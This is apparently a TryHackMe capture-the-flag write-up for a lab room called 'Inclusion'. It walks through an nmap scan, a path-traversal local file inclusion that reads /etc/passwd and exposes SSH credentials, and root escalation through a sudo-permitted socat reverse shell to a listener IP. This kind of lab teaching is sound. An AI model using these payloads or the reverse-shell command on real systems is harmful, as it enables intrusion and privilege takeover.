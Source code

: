 # Inclusion

This is for my room named `inclusion` on TryHackMe.com

## NMAP

![](images/nmap.png)

We start with nmap scan and find out that only port 22 and 80 is open.

## HTTP

If we start looking on port 80 we'll notice a minimal website which seems like a blog under development.

![](images/website.png)

We notice that there are 3 `articles` we can click on any of those and notice the URL it's like `http://inclusion.local/article?name=hacking` so there is a parameter which we can test for LFI/RFI/SQLi or other vulnerabilities. But since other articles were talking about LFI/RFI we would test for those first.

![](images/passwd.png)

We find out that we can included the `/etc/passwd` file using path traversal technique

```bash
../../../../../../../../../../../../../../../../../../etc/passwd
```

so in the `name` parameter we pass that value and we are able to read the `/etc/passwd` file meaning it was LFI. We also notice that there is a comment which contains a username and password.

So I used `falconfeast` as username and `rootpassword` as password to login into the machine via SSH.

![](images/ssh.png)

And now we can read `user.txt` which is in `/home/falconfeast`.

## Privilege escalation

Since we are a user on the system I checked for sudo right of that user by running

```bash
sudo -l
```
![](images/sudo-right.png)

We can see that `falconfeast` can run `socat` as `root`. We can search [gtfobins](gtfobins.github.io/) for socat binary. You can also search that using tool like [gtfo](github.com/mzfr/gtfo).

![](images/gtfo.png)

We see that we can get a reverse shell using `socat`. We run the following command from the machine while our listener is listening on port `4444`

```bash
$ sudo -u root /usr/bin/socat tcp-connect:192.168.1.107:4444 exec:sh,pty,stderr,setsid,sigint,sane
```

![](images/root.png)

